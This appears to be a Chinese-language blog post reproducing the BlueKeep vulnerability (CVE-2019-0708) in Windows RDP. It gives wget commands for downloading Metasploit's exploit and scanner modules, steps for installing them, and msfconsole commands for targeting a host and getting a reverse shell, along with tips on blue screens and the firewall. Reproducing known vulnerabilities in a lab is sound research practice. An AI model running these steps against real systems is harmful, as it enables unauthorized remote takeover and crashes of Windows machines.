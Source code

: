```yaml
---
title: CVE-2019-0708漏洞复现
date: 2019-09-07 11:52:31
tags:
  - CVE
  - Vulnerability
categories:
  - Vulnerability-Recurrence
---
```


具体PR: https://github.com/rapid7/metasploit-framework/pull/12283

## 准备操作

### Linux
直接看 http://blog.xkkhh.cn/archives/535

### MacOS
```
# Download
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/lib/msf/core/exploit/rdp.rb
wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/rdp_scanner.rb
wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb
wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb

# Replace
sudo cp rdp.rb /opt/metasploit-framework/embedded/framework/lib/msf/core/exploit/rdp.rb
sudo cp rdp_scanner.rb /opt/metasploit-framework/embedded/framework/modules/auxiliary/scanner/rdp/rdp_scanner.rb
sudo cp cve_2019_0708_bluekeep.rb /opt/metasploit-framework/embedded/framework/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb
sudo cp cve_2019_0708_bluekeep_rce.rb /opt/metasploit-framework/embedded/framework/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb
```

注意 还需要关闭系统防火墙 因为用到了反弹Shell
<img width="668" src="https://user-images.githubusercontent.com/19854253/64469557-c8f6d600-d166-11e9-935f-85e65a68ca18.png">

## Exploit
开启`msfconsole`
保险起见执行`reload_all`
Load module `use exploit/windows/rdp/cve_2019_0708_bluekeep_rce`
接下来 `msf`基本操作
查看配置`info`
设置目标IP `set RHOSTS <target ip>`
有需要的话需要设置`target`
```
Exploit targets:

   Id  Name
   --  ----
   0   Automatic targeting via fingerprinting
   1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64)
   2   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox)
   3   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare)
   4   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Hyper-V)
```

最后 `run`，遇到蓝屏 多试几次 或者 是哪一步配置出错

![成功](https://user-images.githubusercontent.com/19854253/64469627-b5983a80-d167-11e9-81ce-d75efc5bbcdf.png)


## 自己踩的坑
1. 需要覆盖的文件没有全覆盖到 -> exploit的时候一直蓝屏
2. 系统防火墙没有关 -> 一直拿不到反弹Shell (没想到竟然会经过防火墙 以为是一个机子的内部操作)













